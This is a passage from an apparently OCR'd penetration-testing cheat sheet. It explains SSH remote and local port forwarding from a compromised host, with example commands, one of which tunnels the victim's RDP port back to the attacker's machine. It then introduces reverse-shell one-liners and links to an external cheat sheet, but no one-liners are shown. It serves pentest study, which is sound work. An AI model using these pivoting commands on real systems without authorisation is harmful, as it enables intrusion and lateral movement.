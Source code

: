 #### <span id="anchor-64"></span>SSH Tunnels

##### <span id="anchor-65"></span>SSH Remote Port Forwarding

```
ssh **&lt;gateway&gt;** -R **&lt;remote port to bind&gt;**:**&lt;local host&gt;**:**&lt;local port&gt;**
```

-   **&lt;gateway&gt;** = The Hostname/IP of the machine you are working
    from.
-   **&lt;localhost&gt;** = The local IP of the machine that you have a
    shell open on. I.e. 127.0.0.1
-   **&lt;remote port to bind&gt;** = The local port of the machine that
    you have a shell open on. This is the port that you will connect to.
-   **&lt;local port&gt;** = The port that the service you want to
    connect to is running.

**EXAMPLE: **ssh 10.0.0.20 -R 3390:127.0.0.1:3389

In the above example, this command is being run from the compromised
system. You are connecting back to your working machine. 127.0.0.1:3390
on your working machine is now connected to port 3389 on the compromised
system.

##### <span id="anchor-66"></span>SSH Local Port Forwarding

```
ssh **&lt;gateway&gt;** -L **&lt;local port to listen&gt;**:**&lt;remote host&gt;**:**&lt;remote port&gt;**
```

-   **&lt;gateway&gt;** = The Hostname/IP of the machine you are working
    from.
-   **&lt;remote host&gt;** = The IP address of the server you would
    like to redirect traffic to.
-   **&lt;local port to listen&gt;** = The local port of the machine
    that you have a shell open on.
-   **&lt;remote port&gt;** = The port on the remote server that you
    would like to redirect traffic to.

**EXAMPLE:** ssh 10.0.0.20 -L 8080:11.11.11.11:80

In the above example, this command is being run from the compromised
system. You are attempting to forward traffic on the compromised system
from 127.0.0.1:8080 to the remote web server hosted on 11.11.11.11:80.

### <span id="anchor-67"></span>Reverse Shells

[*http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

#### <span id="anchor-68"></span>One-Liners

Try substituting “cmd.exe” instead of “/bin/sh” or “/bin/bash” to make
these work in Windows.
